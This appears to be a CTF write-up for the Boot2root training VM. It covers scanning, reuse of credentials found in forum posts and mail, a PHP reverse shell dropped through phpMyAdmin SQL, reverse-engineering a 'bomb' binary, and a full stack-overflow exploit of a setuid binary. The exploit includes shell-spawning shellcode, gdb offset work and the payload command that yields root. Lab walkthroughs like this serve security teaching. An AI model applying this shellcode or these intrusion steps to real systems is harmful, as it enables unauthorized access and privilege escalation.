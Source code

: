 We make network connection in VBox as "Bridge" or "Virtual network"
After it we can scan ourselves with nmap to find Boot2root ip and open ports.

![ip_network](screenshots/ip_network.png)

We found web site under this server.
So we scan 80 and 443 with dirb to find directories. It is output:


![nmap_result](screenshots/nmap_result.png)


Now we have three new points: /fonts (http) and /phpmyadmin, /webmail, /forum (https).
- Fonts are not interesting for us
- phpmyadmin request creditnails. We will not brute it((
- webmail same as above.
- forum works and we can find some useful thigs inside.

On form we see theme by lmezard called "Probleme login?".
It's log and we search for some info. Here we have one string, that seems like password,
if we try it to log in forum, we will succeed. Forum login/pass - lmezard:!q\]Ej?*5K5cy*AJ

After it we can try to Contact and now have lmezard's E-mail adress. If we try to use it to auth /webmail, we will succeed again.
/webmail login/pass - laurie@borntosec.net:!q\]Ej?*5K5cy*AJ

![forum](screenshots/forum.png)

In mailbox we have two messages, one of them includes creds for something called "database".
It is /phpmyadmin login/pass root/Fg-'kKXBj87E:aJ$

![message](screenshots/message.png)

Now is time for Explotation. In phpmyadmin we can make unlimited SQL queries and it means that we could send a payload into a file.
We only should find place where we have access to write files. But we have this place. Look again at dirb output.
Trying several directories and drop php file: In one of directories var/www/forum/templates_c we have enougth rights.

![drop](screenshots/drop.png)

Ok. Now we need reverse shell, we can generate it in base64 with help of 'https://www.revshells.com/'.
And we drop full code with PHP method base64_decode in p.php, start nc, open p.php in browser, improve our shell with python.

![reverse_shell](screenshots/reverse_shell.png)

Now we need to explore system. We look for /home directory, there is dir LOOKATME which contains file password. NICE user login/password lmezard:G!@M6f4Eatau{sF"

![lmezard's_home_dir](screenshots/lmezard's_home_dir.png)

When we logged as lmezard, we found files in his home directory. 'fun' is tar archive, so it will be little more convvenient, to work with it on local machine.
We just copy 'fun' to /forum/templates_c and use chmod 777 (lol). Now we can download file with wget on local machine.

![fun_download](screenshots/fun_download.png)

Then we find a lot pcap files in dir. To deobfuscate it we use sh script. When job is done we use enfile as C-code, compile it and have password, which needed to be cripted with sha-256. hmmm... use sha256 and ssh login/password laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
NICE

![pcap_handle](screenshots/pcap_handle.png)

Now we fnally can connect to machine via ssh. We have README, which says we must defuse the bomb and 'bomb'-ELF exutable.
We haven't passion to start binaries named bomb so let's look to strings. We can see all 'phases', that we need to defuse bomb.
We had hint in README, so easily go to stage two. Let's find all passwords with hint. I thought...
But it doesnt work for 2nd level. OK, we download radare2, and here we go.

![turtle](screenshots/turtle.png)

![SLASH_md5](screenshots/SLASH_md5.png)

2nd level. 
We have two simple functions. First, we read six numbers from stdin. If numbers count not equal six, we exlode bomb.
Simply run debugger and watch at cmp instruction. At the end we have 1 2 6 24 120 720

![l2_read_six_nums](screenshots/bomb/l2_read_six_nums.png)

3d level.
Func want two numbers and letter. OKAY. It is only begin. We see a lot of jumps fahrer from start. There is switch-case construction.
It depend from first number value. So we try everything from first condition and we're good.
In the HINT our letter is b, so second group of values is ours. 1 b 214. OK

![l3_beginning](screenshots/bomb/l3_beginning.png)
![l3_general](screenshots/bomb/l3_general.png)

4th level.
Owh. We're bad. We have recoursive function here. It will be hard. 
We have internet, so we can install ghydra with 'r2pm --ci r2ghydra'.
OKAY. Now we decompile our phase_4 
Simply decompil function and see pritty easy task. Write python script which copy our function.
It's just fibonacci function and we need to get 55 It is 9th number of sequense and answer 9


5th level.
Here we see some tricks with arrays. OKAY. The good solution - copy function in python and after it copy alghoritm.
So we play with script and solve this problem. Answer - opekmq

6th level.
Here we have REALY coplex function. Sowe need a few hours, debugger and patient. We run and rerun this program. 
In we end we have six numbers. Password - 4 2 6 3 1 5

Given setuid binary exploit_me. Lets disassemble it:

    (gdb) set disassembly-flavor intel
    (gdb) disass main
    Dump of assembler code for function main:
    0x080483f4 <+0>:	push   ebp
    0x080483f5 <+1>:	mov    ebp,esp
    0x080483f7 <+3>:	and    esp,0xfffffff0
    0x080483fa <+6>:	sub    esp,0x90
    0x08048400 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
    0x08048404 <+16>:	jg     0x804840d <main+25>
    0x08048406 <+18>:	mov    eax,0x1
    0x0804840b <+23>:	jmp    0x8048436 <main+66>
    0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
    0x08048410 <+28>:	add    eax,0x4
    0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
    0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
    0x08048419 <+37>:	lea    eax,[esp+0x10]
    0x0804841d <+41>:	mov    DWORD PTR [esp],eax
    0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
    0x08048425 <+49>:	lea    eax,[esp+0x10]
    0x08048429 <+53>:	mov    DWORD PTR [esp],eax
    0x0804842c <+56>:	call   0x8048310 <puts@plt>
    0x08048431 <+61>:	mov    eax,0x0
    0x08048436 <+66>:	leave
    0x08048437 <+67>:	ret
    End of assembler dump.

There is unprotected strcpy from command line arguments into buffer, we can abuse that by writing shellcode inside env variable and overwrite return eip address to point on this variable address.
We can use this shellcode:

    \x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

Assembly of this shellcode will look like this:

    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x17
    int    0x80
    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x2e
    int    0x80
    xor    eax,eax
    push   eax
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx,esp
    push   eax
    push   ebx
    mov    ecx,esp
    xor    edx,edx
    mov    al,0xb
    int    0x80

First we need to create shellcode env variable:

    zaz@BornToSecHackMe:~$ export SHELLCODE=$(python -c 'print("\x90"*10+"\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')

Next we need to find offset to eip and SHELLCODE env variable address:

    zaz@BornToSecHackMe:~$ gdb ./exploit_me
    (gdb) b *main+49
    Breakpoint 1 at 0x8048425
    (gdb) run aaaabbbbccccdddd
    Starting program: /home/zaz/exploit_me aaaabbbbccccdddd

    Breakpoint 1, 0x08048425 in main ()
    (gdb) info frame
    Stack level 0, frame at 0xbffff6d0:
    eip = 0x8048425 in main; saved eip 0xb7e454d3
    Arglist at 0xbffff6c8, args:
    Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
    Saved registers:
    ebp at 0xbffff6c8, eip at 0xbffff6cc
    (gdb) x/50x $sp
    0xbffff630:	0xbffff640	0xbffff8ac	0x00000001	0xb7ec3c49
    0xbffff640:	0x61616161	0x62626262	0x63636363	0x64646464
    0xbffff650:	0xbffff700	0xb7fdd000	0x00000000	0xb7e5ec73
    0xbffff660:	0x08048241	0x00000000	0x00c30000	0x00000001
    0xbffff670:	0xbffff897	0x0000002f	0xbffff6cc	0xb7fd0ff4
    0xbffff680:	0x08048440	0x080496e8	0x00000002	0x080482dd
    0xbffff690:	0xb7fd13e4	0x00000016	0x080496e8	0x08048461
    0xbffff6a0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
    0xbffff6b0:	0xb7fed280	0x00000000	0x08048449	0xb7fd0ff4
    0xbffff6c0:	0x08048440	0x00000000	0x00000000	0xb7e454d3
    0xbffff6d0:	0x00000002	0xbffff764	0xbffff770	0xb7fdc858
    0xbffff6e0:	0x00000000	0xbffff71c	0xbffff770	0x00000000
    0xbffff6f0:	0x0804820c	0xb7fd0ff4
    (gdb) x/20s *((char**)environ)
    0xbffff8bd:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\061ۉذ\027̀1ۉذ.̀1\300Ph//shh/bin\211\343PS\211\341\061Ұ\v̀"

Shellcode address is 0xbffff8bd, offset from buffer to old eip is 140 bytes.
Now we can perform our exploit:

    zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("a"*140 + "\xbd\xf8\xff\xbf")')
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����
    # whoami
    root
    #

And in thor acc we have turtle and README. README doesn't tell anything usefull, so we look at file. It's text with directions of tutle. In Mother Russia we did this things it school.ON PAPER. And now We just write python script.

![turtle.dir](screenshots/turtle.png)
 

